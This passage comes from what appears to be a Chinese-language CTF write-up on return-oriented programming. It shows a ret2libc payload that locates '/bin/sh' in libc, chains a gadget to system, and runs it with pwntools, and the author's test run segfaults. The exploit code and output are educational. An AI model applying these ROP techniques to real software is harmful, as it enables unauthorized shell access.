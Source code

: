 ```py
print(f'[3] system_runtime = {hex(system_runtime)}')
```
---

第二階段的目標就是要call `system`，然後取得shell

`system`看起來只有一個參數，所以可以沿用上一個gadget

這次需要的參數是一個字串，或更正確的說，指向`"/bin/sh"`的pointer

`vuln`裡面不會有，所以要在libc裡面找
```
001b40f0  79 20 3d 3d 20 31 00 2d  63 00 2f 62 69 6e 2f 73  |y == 1.-c./bin/s|
001b4100  68 00 65 78 69 74 20 30  00 63 61 6e 6f 6e 69 63  |h.exit 0.canonic|
001b4110  61 6c 69 7a 65 2e 63 00  4d 53 47 56 45 52 42 00  |alize.c.MSGVERB.|
```
`libc_base+0x1b40fa`就有一串

所以這次的stack長這樣

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/stack-2.png" column=1 %}

```py
# Phase 2
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(libc_base+0x1b40fa) # pointer to "/bin/sh"
payload += p64(libc_base+0x4f4e0) # to system

r.sendline(payload)
r.interactive()
```

測試一下
```
❯ python3 ./exploit.py
[+] Starting local process './vuln': pid 15942
[*] [1] puts_runtime = 0x7f486d6235a0
[*] [2] libc_base = 0x7f486d5a2b70
[*] [3] system_runtime = 0x7f486d5f2050
[*] 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  13 09 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000090  1a a1 75 6d  48 7f 00 00  50 20 5f 6d  48 7f 00 00  │··um│H···│P _m│H···│
    000000a0
[*] Switching to interactive mode
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
[*] Got EOF while reading in interactive
$ 
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 15942)
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/home/nick/coding/pico/venv/lib/python3.9/site-packages/pwnlib/tubes/process.py", line 787, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe
```
~~果然是壞的~~
